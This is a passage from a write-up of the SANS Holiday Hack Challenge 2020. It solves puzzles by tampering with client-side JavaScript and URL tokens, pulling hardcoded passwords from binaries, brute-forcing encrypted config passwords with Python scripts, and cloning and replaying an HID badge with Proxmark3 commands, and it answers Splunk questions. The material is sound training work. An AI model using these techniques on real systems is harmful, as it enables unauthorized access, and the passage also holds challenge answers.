.. image:: /images/sans-christmas-challenge-2020/santavator_green_red_ok.png
    :alt: santavator_green_red_ok.png
    :align: center

The yellow light is next to Santa's sleigh, on the roof:

.. image:: /images/sans-christmas-challenge-2020/santavator_yellow_light.png
    :alt: santavator_yellow_light.png
    :align: center

And now we can light up every nozzle:

.. image:: /images/sans-christmas-challenge-2020/santavator_green_red_yellow_ok.png
    :alt: santavator_green_red_yellow_ok.png
    :align: center

This is all well and fine, but it takes time, and we're still missing some
key elements, namely the button that allows us to go to the workshop. There
also seems to be a fingerprint scan to go up to Santa's office.

Do we *really* need to find every bits and bobs?

Second method: pretending we have the bits and bobs
...................................................

Let's take a look at the control pannel. We can right click on it and select
"Open this frame in a new tab".

We now see that the control pannel is loaded via the URL https://elevator.kringlecastle.com/?challenge=elevator&id=guid&username=yourusername&area=santavator1&location=1,2&tokens=candycane,elevator-key:

.. image:: /images/sans-christmas-challenge-2020/santavator_control_pannel_frame.png
    :alt: santavator_control_pannel_frame.png
    :align: center

We can see that the URL has a :code:`tokens` parameter, which seems to tell the
control pannel what bits and bobs we found. For example, if I add
:code:`greenlight` at the end of the URL, *presto*, I now have a green light:

.. image:: /images/sans-christmas-challenge-2020/santavator_stolen_green_light.png
    :alt: santavator_stolen_green_light.png
    :align: center

Awesome! Now, how can we find the name of the missing bits and bobs? Well,
by looking at the source of the page, we can see that an :code:`app.js` file is
included. You can download said file `here </docs/sans-christmas-challenge-2020/app.js>`__.
By examining the file, we can find the name for the bits and bobs:

- The broken candycane is :code:`candycane`
- The first hex nut is :code:`nut`
- The second hex nut is :code:`nut2`
- The green, red, and yellow lights are :code:`greenlight`, :code:`redlight`,
  and :code:`yellowlight`
- The missing workshop button is :code:`workshop-button`

You can also get some funky stuff, like:

- Portals, with :code:`portals`
- Marbles, which act like planets with a gravity field, with :code:`marble`
  and :code:`marble2`
- A ball, with :code:`ball`

There's even a :code:`besanta` parameter that you can set:

.. code-block:: js
    :hl_lines: 6

    const handleBtn4 = () => {
      const cover = document.querySelector('.print-cover');
      cover.classList.add('open');

      cover.addEventListener('click', () => {
        if (btn4.classList.contains('powered') && hasToken('besanta')) {

It must be the token that allows you to pass the fingerprint scan. Let's add
all of this in the :code:`tokens` parameter:

.. image:: /images/sans-christmas-challenge-2020/santavator_stolen_tokens.png
    :alt: santavator_stolen_tokens.png
    :align: center

Bingo, we now have every bits and bobs! Now we can redirect the sparks to
every nozzle, and get access to every floor, even Santa's office:

.. image:: /images/sans-christmas-challenge-2020/santavator_santa_office.png
    :alt: santavator_santa_office.png

Funny enough, that is objective 10, but I didn't know it before I bypassed
this security. Oh well ¯\\_(ツ)_/¯

But do we *really* need to pretend to have every bits and bobs?

Third method: who needs bits and bobs, anyway
.............................................

Let's take a look at the :code:`app.js` code, to see how the control pannel
decides which floor are accessible:

.. code-block:: js

    const renderTraps = () => {
      TRAPS.forEach((points, index) => {
        const fillLevel = pl.Math.clamp(PARTICLE_COUNTS[index].length / trapTargetCounts[index], 0, 1);
        const steppa = Math.floor(fillLevel / (1 / wireSteps[index]));
        wireElements[index].style.backgroundPosition = `0 ${ -wireElements[index].clientHeight * steppa }px`;
        ledElements[index].classList[fillLevel === 1 ? 'add' : 'remove']('on');
        powered[index] = fillLevel === 1;
      });

      btn1.classList[powered[2] ? 'add' : 'remove']('powered');
      btn3.classList[powered[2] ? 'add' : 'remove']('powered');

      btn2.classList[powered[2] && powered[0] && hasToken('workshop-button') ? 'add' : 'remove']('powered');
      btnr.classList[powered[2] && powered[0] ? 'add' : 'remove']('powered');

      btn4.classList[powered[2] && powered[1] && powered[0] ? 'add' : 'remove']('powered');

    };

The JavaScript computes how much colored particles are redirected to their
correct nozzle. It computes a :code:`fillLevel`, which determines if the
nozzle is fully filled (i.e. the :code:`fillLevel` variable is equal to 1).
If that's the case, the :code:`powered[index]` variable is set to true.
:code:`powered[2]` is the green light, :code:`powered[1]` is the yellow light,
and :code:`powered[0]` is the red light.

We can see that the different buttons are considered powered only if the
corresponding lights are powered. For the button :code:`btn2`, we also need
the workshop button. And for the button :code:`btn4`, we saw that we need the
:code:`besanta` token.

Since every thing is done client-side, we can modify the JavaScript so that
everything is always powered on. However, since the :code:`fillLEvel` variable
is a :code:`const`, we cannot modify it during runtime. So let's use Burp to:

- Modify our :code:`app.js` file when the browser requests it.
- Modify our available tokens, so that we have :code:`workshop-button` and
  :code:`besanta`.

.. image:: /images/sans-christmas-challenge-2020/santavator_burp_match_replace.png
    :alt: santavator_burp_match_replace.png
    :align: center

Now, we can use the Santavator to go to any floor:

.. image:: /images/sans-christmas-challenge-2020/santavator_hack.gif
    :alt: santavator_hack.gif
    :align: center

There are many ways we can modify the :code:`app.js` file to hijack the
Santavator. For example, the floor we go to is determined by the HTML attribute
:code:`data-floor` set on each button:

.. code-block:: js
    :hl_lines: 2 17

    const handleBtn = event => {
      const targetFloor = event.currentTarget.attributes['data-floor'].value;
      $.ajax({
        type: 'POST',
        url: POST_URL,
        dataType: 'json',
        contentType: 'application/json',
        data: JSON.stringify({
          targetFloor,
          id: getParams.id,
        }),
        success: (res, status) => {
          if (res.hash) {
            __POST_RESULTS__({
              resourceId: getParams.id || '1111',
              hash: res.hash,
              action: `goToFloor-${targetFloor}`,
            });
          }
        }
      });
    }

.. code-block:: html
    :hl_lines: 5

      <div class="localstorage-error"><strong>Heads up:</strong> Your Santavator repair configuration cannot be accessed or saved in incognito mode.</div>
      <img class="f15btn found" src="images/floor1-5button.png">
      <div class="key"></div>
      <div class="print-cover"></div>
      <button class="btn btn1 active powered" data-floor="1">1</button>
      <button class="btn btn15 powered" data-floor="1.5">1.5</button>`
      <button class="btn btn2 powered" data-floor="2">2</button>
      <button class="btn btn3 powered" data-floor="3">3</button>
      <button class="btn btnr powered" data-floor="r">R</button>

    
Therefore we can, for example, light up the green nozzle, and then modify the
button :code:`btn1`, so that its :code:`data-floor` attribute points to the
floor we want to go to.

Objective 5:
~~~~~~~~~~~~

Bushy Evergreen's Cranberry Pi Challenge
----------------------------------------

Opening the door
................

.. code-block:: console

    Help us get into the Speaker Unpreparedness Room!

    The door is controlled by ./door, but it needs a password! If you can figure
    out the password, it'll open the door right up!

    Oh, and if you have extra time, maybe you can turn on the lights with ./lights
    activate the vending machines with ./vending-machines? Those are a little
    trickier, they have configuration files, but it'd help us a lot!

    (You can do one now and come back to do the others later if you want)

    We copied edit-able versions of everything into the ./lab/ folder, in case you
    want to try EDITING or REMOVING the configuration files to see how the binaries
    react.

    Note: These don't require low-level reverse engineering, so you can put away IDA
    and Ghidra (unless you WANT to use them!)
    elf@29c6cc0288b7 ~ $

Let's launch the :code:`./door` executable:

.. code-block:: console

    elf@f0c0e42e2e48 ~ $ ./door
    You look at the screen. It wants a password. You roll your eyes - the
    password is probably stored right in the binary. There's gotta be a
    tool for this...

    What do you enter? >

"The password is probably stored right in the binary". Hmm, maybe we can find
it using :code:`strings`?

.. code-block:: console
    :hl_lines: 4

    elf@f0c0e42e2e48 ~ $ strings ./door | grep -i password
    /home/elf/doorYou look at the screen. It wants a password. You roll your eyes - the
    password is probably stored right in the binary. There's gotta be a
    Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"
    Beep boop invalid password

Let's try :code:`Op3nTheD00r`:

.. code-block:: console

    elf@f0c0e42e2e48 ~ $ ./door
    You look at the screen. It wants a password. You roll your eyes - the
    password is probably stored right in the binary. There's gotta be a
    tool for this...

    What do you enter? > Op3nTheD00r
    Checking......

    Door opened!

Hurray, it worked!

Repairing the vending machines
..............................

The :code:`vending-machines` executable reads a JSON configuration file:

.. code-block:: console
    :hl_lines: 8

    elf@fd6550200a09 ~ $ ./vending-machines
    The elves are hungry!

    If the door's still closed or the lights are still off, you know because
    you can hear them complaining about the turned-off vending machines!
    You can probably make some friends if you can get them back on...

    Loading configuration from: /home/elf/vending-machines.json
    [snip]

Let's take a look:

.. code-block:: console

    elf@fd6550200a09 ~ $ cat vending-machines.json
    {
      "name": "elf-maintenance",
      "password": "LVEdQPpBwr"
    }

I first tried submitting the password as is, but got an error.

We're told to take a look in the :code:`./lab/` folder, to get test
configuration files, and see the behaviour of the executables when their
configuration files are modified or missing. Let's delete :code:`vending-machines.json`
and see what happens:

.. code-block:: console
    :hl_lines: 13 15 16

    elf@fd6550200a09 ~/lab $ ./vending-machines
    The elves are hungry!

    If the door's still closed or the lights are still off, you know because
    you can hear them complaining about the turned-off vending machines!
    You can probably make some friends if you can get them back on...

    Loading configuration from: /home/elf/lab/vending-machines.json

    I wonder what would happen if it couldn't find its config file? Maybe that's
    something you could figure out in the lab...

    ALERT! ALERT! Configuration file is missing! New Configuration File Creator Activated!

    Please enter the name > elf-maintenance
    Please enter the password > toor

If the configuration file is missing, a new one is generated, with our input
for :code:`name` and :code:`password`. Let's see the generated configuration
file:

.. code-block:: console
    :hl_lines: 4

    elf@fd6550200a09 ~/lab $ cat ./vending-machines.json
    {
      "name": "elf-maintenance",
      "password": "cjfy"
    }

We can see that our :code:`toor` password was encoded. Several things:

- The length of the encoded password is the same as the plaintext password.
- The encoding of a letter seems to depend on its position in the string. For
  example, the first and second :code:`o` in :code:`toor` were respectively
  encoded :code:`j` and :code:`f`.

Is a letter encoding value dependent only on its position in the string? Let's
try something, like creating a configuration file with a value of :code:`taar`:

.. code-block:: console
    :hl_lines: 4

    elf@fd6550200a09 ~/lab $ cat vending-machines.json
    {
      "name": "elf-maintenance",
      "password": "cVby"
    }

Our :code:`t` is still encoded as :code:`c`, and our :code:`r` as :code:`y`.
Each letter's encoding value seems to depend only on its position in the
string.  So, there seems to some kind of `Vigenère cipher <https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher>`__
going on.

Here's something we can try:

- We generate a password of one character.
- We encode our password, and read the configuration file.

  - If it matches the first character of our real password (in our case
    :code:`L`), we know the first plain character.
  - Otherwise, we try another character.

- Once we have the first character, we move on to the second one, and so on.

Here's a Python code to perform this task:

.. code-block:: python

    #!/usr/bin/env python3

    import string
    import json
    import os

    ENC_PASSWORD = 'LVEdQPpBwr'

    def main():
        plain_password = str()
        charset = string.printable

        for i in range(len(ENC_PASSWORD)):
            for c in charset:
                try:
                    os.remove('vending-machines.json')
                except FileNotFoundError:
                    pass
                candidate = plain_password + c
                os.system('echo "elf-maintenance\n{}" | ./vending-machines > /dev/null 2>&1'.format(candidate))
                with open('vending-machines.json', 'r') as f:
                    vm_conf = json.load(f)
                enc_candidate = vm_conf['password']
                if enc_candidate[i] == ENC_PASSWORD[i]:
                    print('Found a match! Character #{} is {}'.format(i, c))
                    plain_password +=c
                    break
            else:
                print('FOUND NO MATCH FOR INDEX {}'.format(i))
                return -1

        print('Plain text password:', plain_password)

        return

    if __name__ == '__main__':
        main()

Let's run it. After approximately 10 minutes:

.. code-block:: console

    elf@fd6550200a09 ~/lab $ ./crack_vending_machines.py
    Found a match! Character #0 is C
    Found a match! Character #1 is a
    Found a match! Character #2 is n
    Found a match! Character #3 is d
    Found a match! Character #4 is y
    Found a match! Character #5 is C
    Found a match! Character #6 is a
    Found a match! Character #7 is n
    Found a match! Character #8 is e
    Found a match! Character #9 is 1
    Plain text password: CandyCane1

We got a match! And it seems to make sense. Let's try :code:`CandyCane1`:

.. code-block:: console

    elf@fd6550200a09 ~ $ ./vending-machines
    The elves are hungry!

    If the door's still closed or the lights are still off, you know because
    you can hear them complaining about the turned-off vending machines!
    You can probably make some friends if you can get them back on...

    Loading configuration from: /home/elf/vending-machines.json

    I wonder what would happen if it couldn't find its config file? Maybe that's
    something you could figure out in the lab...

    Welcome, elf-maintenance! It looks like you want to turn the vending machines back on?
    Please enter the vending-machine-back-on code > CandyCane1
    Checking......

    Vending machines enabled!!

Yay, now we can eat snacks!

Turning the lights on
.....................

The :code:`lights` executable also reads a configuration file:

.. code-block:: console
    :hl_lines: 7

    elf@7e9797985297 ~ $ ./lights
    The speaker unpreparedness room sure is dark, you're thinking (assuming
    you've opened the door; otherwise, you wonder how dark it actually is)

    You wonder how to turn the lights on? If only you had some kind of hin---

     >>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lights.conf

    ---t to help figure out the password... I guess you'll just have to make do!

    The terminal just blinks: Welcome back, elf-technician

    What do you enter? > 

Let's take a look at it:


.. code-block:: console

    elf@7e9797985297 ~ $ cat ./lights.conf
    password: E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124
    name: elf-technician

As for the vending machines, let's go in the :code:`lab` folder to tinker with
this configuration file. First, let's try to remove it:

.. code-block:: console

    elf@7e9797985297 ~/lab $ rm ./lights.conf
    elf@7e9797985297 ~/lab $ ./lights

    ERROR: Could not load /home/elf/lab/lights.conf

The program simply refuses to launch. Let's restore the configuration file:

.. code-block:: console

    elf@7e9797985297 ~/lab $ cp ../lights.conf ./lights.conf

Now let's try to modify the :code:`password` field. With some testing, we can
kind of figure out that the :code:`E$` indicates that the password is an
encrypted field. Let's try to modify the value that comes after that:

.. code-block:: console
    :hl_lines: 2 6

    elf@7e9797985297 ~/lab $ cat lights.conf
    password: E$e
    name: elf-technician
    elf@7e9797985297 ~/lab $ ./lights
    Failed to parse key `password`: OddLength
    Password is missing from config file!

The parsing failed, because we only left an :code:`e`. The password field is
probably hex-encoded, and therefore the parsing fails if there's an odd number
of characters. So let's keep the length even:

.. code-block:: console
    :hl_lines: 2 5

    elf@7e9797985297 ~/lab $ cat ./lights.conf
    password: E$ed
    name: elf-technician
    elf@7e9797985297 ~/lab $ ./lights
    Password is missing from config file!

Hmm, that's weird, the :code:`lights` program seems to consider that there is
no password in the configuration file. Let's keep adding bytes to the
:code:`password` field. We get the same error message, until:

.. code-block:: console
    :hl_lines: 2 16

    elf@7e9797985297 ~/lab $ cat lights.conf
    password: E$ed633d885dcb9b2f
    name: elf-technician
    elf@7e9797985297 ~/lab $ ./lights
    The speaker unpreparedness room sure is dark, you're thinking (assuming
    you've opened the door; otherwise, you wonder how dark it actually is)

    You wonder how to turn the lights on? If only you had some kind of hin---

     >>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lab/lights.conf

    ---t to help figure out the password... I guess you'll just have to make do!

    The terminal just blinks: Welcome back, elf-technician

    What do you enter? >
    Checking......
    That would have turned on the lights!

    If you've figured out the real password, be sure you run /home/elf/lights

With a value of :code:`E$ed633d885dcb9b2f`, the program accepts an empty
password. So maybe, the beginning of the field is some kind of encryption key,
and the rest is the encrypted password.

Let's add one more byte to the password field:

.. code-block:: console

    elf@7e9797985297 ~/lab $ cat lights.conf
    password: E$ed633d885dcb9b2f3f
    name: elf-technician

We keep trying one-character long password until:

.. code-block:: console

    What do you enter? > C
    Checking......
    That would have turned on the lights!

Ha! The first character seems to be a :code:`C`. Let's add another byte and
see if we can find the second character:

.. code-block:: console

    elf@7e9797985297 ~/lab $ cat lights.conf
    password: E$ed633d885dcb9b2f3f01
    name: elf-technician

After a while:

.. code-block:: console

    What do you enter? > Co
    Checking......
    That would have turned on the lights!

So, the password begins with :code:`Co`. Just like with the vending machines,
we seem to be able to decrypt the password byte by byte. Let's adapt our
previous script for cracking the lights' password:

.. code-block:: python

    #!/usr/bin/env python3

    import string
    import subprocess

    CONFIG_FILE_TEMPLATE = '''password: E$ed633d885dcb9b2f{}
    name: elf-technician
    '''
    ENC_PASSWORD = '3f0118361de4d57752712c27c5316a95d9e5e5b124'

    def main():
        plain_password = str()
        charset = string.printable
        i = 0

        for i in range(len(ENC_PASSWORD)//2):
            config = CONFIG_FILE_TEMPLATE.format(ENC_PASSWORD[:2*(i+1)])
            with open('./lights.conf', 'w') as f:
                f.write(config)

            for c in charset:
                candidate = plain_password + c
                result = subprocess.run(['./lights'], stdout=subprocess.PIPE, input=candidate.encode('utf-8'))
                if 'Beep boop invalid password' not in result.stdout.decode('utf-8'):
                    print('Found a match! Character #{} is {}'.format(i, c))
                    plain_password +=c
                    break
            else:
                print('FOUND NO MATCH FOR INDEX {}'.format(i))
                return -1

        print('Plain text password: ', plain_password)

        return

    if __name__ == '__main__':
        main()

Let's run it. This script takes a bit more time than the previous one, since
the password is twice as long:

.. code-block:: console

    elf@7e9797985297 ~ $ ./crack_lights.py
    Found a match! Character #0 is C
    Found a match! Character #1 is o
    Found a match! Character #2 is m
    Found a match! Character #3 is p
    Found a match! Character #4 is u
    Found a match! Character #5 is t
    Found a match! Character #6 is e
    Found a match! Character #7 is r
    Found a match! Character #8 is -
    Found a match! Character #9 is T
    Found a match! Character #10 is u
    Found a match! Character #11 is r
    Found a match! Character #12 is n
    Found a match! Character #13 is L
    Found a match! Character #14 is i
    Found a match! Character #15 is g
    Found a match! Character #16 is h
    Found a match! Character #17 is t
    Found a match! Character #18 is s
    Found a match! Character #19 is O
    Found a match! Character #20 is n
    Plain text password:  Computer-TurnLightsOn

We seem to have gotten a good password, let's try it:

.. code-block:: console

    elf@7e9797985297 ~ $ ./lights
    The speaker unpreparedness room sure is dark, you're thinking (assuming
    you've opened the door; otherwise, you wonder how dark it actually is)

    You wonder how to turn the lights on? If only you had some kind of hin---

     >>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lights.conf

    ---t to help figure out the password... I guess you'll just have to make do!

    The terminal just blinks: Welcome back, elf-technician

    What do you enter? > Computer-TurnLightsOn
    Checking......

    Lights on!

Let there be light!

Misty Candycane regex Challenge
-------------------------------

Before we try to open the HID lock, let's give a hand to Misty Candycane and
her Sort-o-Matic.

We're supposed to find regular expressions that match the desired values. I
will detail the construction of non trivial regex. `Regular expressions
<https://en.wikipedia.org/wiki/Regular_expression>`__ are an extremely useful
tool, and I use them almost daily at my job. I highly encourage you to learn
how to use them, they can be very powerful.

Here we go:

1. Matches at least one digit

:code:`\d+`

2. Matches 3 alpha a-z characters ignoring case

:code:`[a-zA-Z]{3}`

3. Matches 2 chars of lowercase a-z or numbers

:code:`[a-z0-9]{2}`

4. Matches any 2 chars not uppercase A-L or 1-5

Here, we use the syntax :code:`[^...]` to exclude characters from a character
set: :code:`[^A-L1-5]{2}`

5. Matches three or more digits only

:code:`^[0-9]{3,}$`

6. Matches multiple hour:minute:second time formats only

    Create a regular expression that only matches if the entire string is a
    valid Hour, Minute and Seconds time format similar to the following:

    * 12:24:53
    * 1:05:24
    * 23:02:43
    * 08:04:10

    However, the following would be invalid:

    * 25:30:86
    * A1:E4:B5
    * B2:13:4A
    * 32:24:53
    * 08:74:53
    * 12:5:24

Ok, let's start with the hour value. It's a number between 0 and 23, and it can
be a single digit or two digits:

- :code:`0?[0-9]` will take care of values between 0 and 9, with an optional
  (:code:`?`) padding 0.
- :code:`1[0-9]` will take care of hours between 10 and 19.
- :code:`2[0-3]` will take care of hours between 20 and 23.

Let's put a pipe (:code:`|`) between these different values, and we get our
regex for the hours: :code:`(0?[0-9]|1[0-9]|2[0-3])`.

Minutes and seconds are simple: they're a number between 0 and 59, and they're
always on two digits: :code:`[0-5][0-9]` works for both of them.

Now, we can take our three regex, separate them with our delimiter :code:`:`,
and surround everything with a :code:`^` at the start and a :code:`$` at the
end, so that it matches *only* our desired time formats:

:code:`^((0?[0-9]|1[0-9]|2[0-3]):[0-5][0-9]:[0-5][0-9])$`

7. Matches MAC address format only while ignoring case

A MAC address is represented by six hex-encoded bytes, separated by :code:`:`,
e.g :code:`11:22:33:44:55:66`. One byte can be represented by
:code:`[0-9a-fA-F]{2}` (it always has a length of two characters).

Now, we could copy and paste this regex six times, and separate it with
:code:`:`. However, we can use a counter with :code:`{.}` to avoid duplicate.

Let's take the following regex: :code:`([0-9a-fA-F]{2}:){5}`. With our example
MAC address, this would match :code:`11:22:33:44:55:`. We can now copy/paste
our byte regex (only one time!) to match the entire MAC address (and add
:code:`^` and :code:`$` to *only* match MAC addresses):

:code:`^([0-9a-fA-F]{2}:){5}[0-9a-fA-F]{2}$`

8. Matches multiple day, month, and year date formats only

    Create a regular expression that only matches one of the three following
    day, month, and four digit year formats:

    * 10/01/1978
    * 01.10.1987
    * 14-12-1991

    However, the following values would be invalid formats:

    * 05/25/89
    * 12-32-1989
    * 01.1.1989
    * 1/1/1

Let's start with the days: they are a number between 1 and 31, on two digits:

- :code:`0[1-9]` takes care of days 1 through 9.
- :code:`[12][0-9]` takes care of days 10 to 29.
- :code:`3[01]` takes care of days 30 and 31.

Separated by pipes, this gives us the following regex for days:
:code:`(0[1-9]|[12][0-9]|3[01])`.

Now, for months: they are a number between 1 and 12, on two digits:

- :code:`0[1-9]` takes care of months 1 through 9.
- :code:`1[0-2]` takes care of months 10 through 12.

Separated by pipes, this gives us the following regex for months:
:code:`(0[1-9]|1[0-2])`.

And finally, the years: they're on a four digit-format, and given the examples,
I've decided to restrict myself to 1900s: :code:`19[0-9]{2}` should do the
trick.

Now, let's separate our different regex with a separator class, something like
:code:`[./-]`, given the examples, and surround everything with :code:`^` and
:code:`$` to *only* match our wanted date formats:

:code:`^(0[1-9]|[12][0-9]|3[01])[./-](0[1-9]|1[0-2])[./-]19[0-9]{2}$`

And the Sort-o-matic is fixed:

.. image:: /images/sans-christmas-challenge-2020/sortomatic_fixed.png
    :alt: sortomatic_fixed.png
    :align: center

Open HID Lock
-------------

Now that we helped Bushy Evergreen, he gives us a Proxmark3. This is a handy
tool that can be used to interact with HID badges. Maybe we can capture the
ID of an HID badge, and replay it against the lock in the workshop? Hmm, but
which badge should we capture?

The objective tells us that we can go ask Fitzy Shortstack for clues. First,
we must help him light up the lights in the Christmas tree:

.. image:: /images/sans-christmas-challenge-2020/fitzyshortstack.png
    :alt: fitzyshortstack.png
    :align: center

*Fitzy Shortstack says*

    "Put it in the cloud," they said...

    "It'll be great," they said...

    All the lights on the Christmas trees throughout the castle are controlled
    through a remote server.

    We can shuffle the colors of the lights by connecting via dial-up, but our
    only modem is broken!

    Fortunately, I speak dial-up. However, I can't quite remember the handshake
    sequence.

    Maybe you can help me out? The phone number is 756-8347; you can use this
    blue phone.

Here's what we get if we click on the phone:

.. image:: /images/sans-christmas-challenge-2020/fitzy_shortstack_blue_phone.png
    :alt: fitzy_shortstack_blue_phone.png
    :align: center

He gives us the link to the audio of a `dial-up connection <https://upload.wikimedia.org/wikipedia/commons/3/33/Dial_up_modem_noises.ogg>`__.
However, it's not suuuuper helpful, so I mainly found the solution via trial
and error. Turns out the correct sequence is:

1. baa DEE brrr
2. aaah
3. wewewwrwrrwrr
4. beDURRdunditty
5. SCHHRRHHRTHRTR

After that, Fitzy is really grateful we helped him:

.. image:: /images/sans-christmas-challenge-2020/fitzyshortstack.png
    :alt: fitzyshortstack.png
    :align: center

*Fitzy Shortstack says*

    탢ݵרOُ񆨶$Ԩ؉楌Բ ahem! We did it! Thank you!!

    Anytime you feel like changing the color scheme up, just pick up the phone!

    **You know, Santa really seems to trust Shinny Upatree...**

Hmm, so Shinny Upatree seems to have the badge opening the HID lock in the
workshop?

Turns out, if we take out our Proxmark next to an elf, we can see that they
each have a badge. Let's read Shinny's badge:

.. code-block:: console
    :hl_lines: 3

    [magicdust] pm3 --> lf hid read

    #db# TAG ID: 2006e22f13 (6025) - Format Len: 26 bit - FC: 113 - Card: 6025

Now, we can replay this ID next to the lock with the following command:

.. code-block:: console

    [magicdust] pm3 --> lf hid sim -r 2006e22f13
    [=] Simulating HID tag using raw 2006e22f13
    [=] Stopping simulation after 10 seconds.

.. image:: /images/sans-christmas-challenge-2020/workshop_hid_unlock.gif
    :alt: workshop_hid_unlock.gif
    :align: center

Objective 6: Splunk Challenge
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Once the door in the workshop is unlocked, we arrive into a dark room. We can
see two ray of lights at the bottom. We advance and...

.. image:: /images/sans-christmas-challenge-2020/i_am_santa.gif
    :alt: i_am_santa.gif
    :align: center

Holy sh\*t, we're Santa now! Jack Frost's gift portrait seems to allow us to
take control of Santa. We can run around the castle and interact with computers
that were unavailable to us before! For example, we can go into the Great Room,
and interact with the `Splunk Server <https://splunk.kringlecastle.com/en-US/account/insecurelogin?username=santa&password=2f3a4fccca6406e35bcf33e92dd93135>`__.

Answering the training questions
--------------------------------

First question
..............

1. How many distinct MITRE ATT&CK techniques did Alice emulate? 

We can get the correct request from our chat with Alice:

    I stored every simulation in its own index so you can just use a Splunk search like

     | tstats count where index=* by index

    for starters!

So, let's head over the `Splunk search interface <https://splunk.kringlecastle.com/fr-FR/app/SA-kringleconsoc/search>`__
and input this request:

.. image:: /images/sans-christmas-challenge-2020/splunk_first_search.png
    :alt: splunk_first_search.png
    :align: center

We can now count the different attacks:

- t1033
- t1057
- t1059.003
- t1059.005
- t1071.001
- t1082
- t1105
- t1106
- t1123
- t1204.002
- t1547.001
- t1548.002
- t1559.002
- t1566.001

So thirteen in total.

Second question
...............

2. What are the names of the two indexes that contain the results of emulating
   Enterprise ATT&CK technique 1059.003?

The indexes are :code:`t1059.003-main` and :code:`t1059.003-win`.

Third question
..............

3. One technique that Santa had us simulate deals with 'system information
   discovery'. What is the full name of the registry key that is queried to
   determine the MachineGuid? 

If we search the MITRE ATT&CK techniques, we can see that "System Information
Discovery" is attack `T1082 <https://attack.mitre.org/techniques/T1082/>`__.
Let's filter on this index and on string :code:`MachineGuid` in our search:

.. image:: /images/sans-christmas-challenge-2020/splunk_machineguid.png
    :alt: splunk_machineguid.png
    :align: center

The registry key is :code:`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography`.

Fourth question
...............

4. According to events recorded by the Splunk Attack Range, when was the first
   OSTAP related atomic test executed?

Oooooooh boy, did I lose time with this one. The clue given by Alice is:

    I suppose the SOC elves might overthink this one. Splunk Attack Range keeps track of the simulations that are run in

        index=attack

    You can then search that index for specific keywords...

I *thought* that the :code:`attack` word in the clue was just a placeholder for
the attack ID. So I search for :code:`atomic test ostap` and found `this
file <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md>`__
in Atomic Red Team Github's page. I then search for "OSTap" and found that the
attacks related to this technique are T1105 and T1204.002. So I searched for
these indexes in Splunk, with request query :code:`index="t1105*" OR index="t1204.002*" "ostap"`.
I only got three events. I tried to submit the timestamps for these events in
every format I could think of, but to no avail.

A kind soul in the chat helped me realize that the name of the index *was*
:code:`attack`. It was *not* a placeholder. It *was* the index I was supposed
to search into all along. Anyway...

I used the search filter :code:`index=attack ostap | sort _time`, to sort the
events from earliest to latest, and submitted the timestamp of the first event,
:code:`2020-11-30T17:44:15Z`.

Fifth question
..............

5. One Atomic Red Team test executed by the Attack Range makes use of an open
   source package authored by frgnca on GitHub. According to Sysmon (Event Code
   1) events in Splunk, what was the ProcessId associated with the first use of
   this component? 

We're kindly given the name of an open source contributor. Let's check their
`Github repositories <https://github.com/frgnca?tab=repositories>`__. Out of
the eight repositories, the most likely to be included in an attack (or attack
simulation framework) is the PowerShell cmdlets used to control audio devices,
`AudioDeviceCmdlets <https://github.com/frgnca/AudioDeviceCmdlets>`__. Indeed,
the other repositories seem to be mainly personal notes or config files.

Let's `search for this package <https://github.com/redcanaryco/atomic-red-team/search?q=AudioDeviceCmdlets>`__
in Atomic Red Team. We can see that we get one associated test, T1123. We can
also see that the test use a different URL for the package, namely
https://github.com/cdhunt/WindowsAudioDevice-Powershell-Cmdlet. However, by
going to this URL, we are redirected to our original package. But it may mean
that Atomic Red Team uses a different name; for example
:code:`WIndowsAudioDevice`.

All these information lead us to build a search filter of :code:`index=t1123* EventCode=1 "WindowsAudioDevice"`:

.. image:: /images/sans-christmas-challenge-2020/splunk_fifth_question.png
    :alt: splunk_fifth_question.png
    :align: center

Only two events! They seem to have occured at the same time, so let's take the
one with the lowest :code:`id` field, which must have occured first. We can
see that the process id is :code:`3648`.

Sixth question
..............

6. Alice ran a simulation of an attacker abusing Windows registry run keys.
   This technique leveraged a multi-line batch file that was also used by a few
   other techniques. What is the final command of this multi-line batch file
   used as part of this simulation? 

I actually solved this one without Splunk. There aren't many MITRE ATT&CK
techniques that abuse Windows registry run keys. By searching for :code:`mitre
att&ck windows registry run`, we can find technique `T1547.001 <https://attack.mitre.org/techniques/T1547/001/>`__,
which uses Windows registry run keys to autostart malicious executable files
at startup. If we look at this technique in `Atomic Red Team Github's page <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.001/T1547.001.md>`__,
we see that the only :code:`.bat` file used with a registry key is the one
used in the `Atomic Test #3 <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.001/T1547.001.md#atomic-test-3---powershell-registry-runonce>`__.
It seems to be hosted at https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat,
and the last line is :code:`quser`.

Seventh question
................

7. According to x509 certificate events captured by Zeek (formerly Bro), what
   is the serial number of the TLS certificate assigned to the Windows domain
   controller in the attack range? 

In the Splunk chat, Alice tells us to use the search filter :code:`index=*
sourcetype=bro*`. Let's search for this:

.. image:: /images/sans-christmas-challenge-2020/splunk_zeek_cert.png
    :alt: splunk_zseek_cert.png
    :align: center

Only twelve different certificate serials. Now, we could try to submit each
one, but where's the fun in that! We're asked for the serial of the domain
controller, so let's take a look at the certificate subjects:

.. image:: /images/sans-christmas-challenge-2020/splunk_zeek_cert_subjects.png
    :alt: splunk_zeek_cert_subjects.png
    :align: center

Now the first result, with a name of :code:`win-dc-748.attackrange.local` seems
to be a good candidate. Let's click on it:

.. image:: /images/sans-christmas-challenge-2020/splunk_zeek_cert_dc.png
    :alt: splunk_zeek_cert_dc.png
    :align: center

We only have one serial left, :code:`55FCEEBB21270D9249E86F4B9DC7AA60`.

Answering the challenge question
--------------------------------

And now, on to the big challenge question: What is the name of the adversary
group that Santa feared would attack KringleCon? 

We get this information from Alice in the chat:

    This last one is encrypted using your favorite phrase! The base64 encoded
    ciphertext is:

